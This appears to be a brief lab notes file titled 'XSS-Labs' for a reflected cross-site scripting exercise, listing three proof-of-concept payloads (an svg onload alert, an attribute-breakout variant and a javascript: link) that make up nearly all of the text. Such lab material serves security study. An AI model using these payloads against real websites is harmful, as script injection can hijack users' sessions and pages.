 # XSS-Labs
# Lab1 = Reflected XSS 

  <svg onload=alert(1)>
  "><svg onload=alert(1)>
  <a href="javascript:alert(1)">Next >></a>
